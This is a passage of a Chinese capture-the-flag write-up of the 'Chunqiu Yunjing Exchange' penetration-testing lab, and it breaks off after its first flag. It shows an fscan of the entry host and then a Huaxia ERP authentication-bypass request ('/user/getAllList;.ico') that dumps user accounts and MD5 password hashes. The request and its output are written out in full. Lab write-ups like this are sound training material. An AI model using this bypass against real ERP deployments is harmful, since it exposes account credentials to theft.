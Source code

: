 

# 内网渗透之春秋云镜（2）-Exchange - 先知社区

内网渗透之春秋云镜（2）-Exchange

- - -

# 春秋云镜—Exchange

## flag1

入口：39.99.157.194

fscan 扫一下

[![](assets/1707954377-4bee365b0fc73e955fec929cdb8d357e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173723-ffd52304-c340-1.png)

发现一个存活的 8000 端口，访问一下

[![](assets/1707954377-bff830fe31764d29620a6bb5d6b0c65e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173729-037d44aa-c341-1.png)

登录界面是个华夏 ERP，有个信息泄露可以泄露用户密码：

```plain
http://39.98.108.154:8000/user/getAllList;.ico
{"code":200,"data":{"userList":[{"id":63,"username":"季圣华","loginName":"jsh","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":1,"status":0,"description":"","remark":null,"tenantId":63},{"id":120,"username":"管理员","loginName":"admin","password":"e10adc3949ba59abbe56e057f20f883e","position":null,"department":null,"email":null,"phonenum":null,"ismanager":1,"isystem":0,"status":0,"description":null,"remark":null,"tenantId":null},{"id":131,"username":"测试用户","loginName":"test123","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":0,"status":0,"description":"","remark":null,"tenantId":63}]}}
```

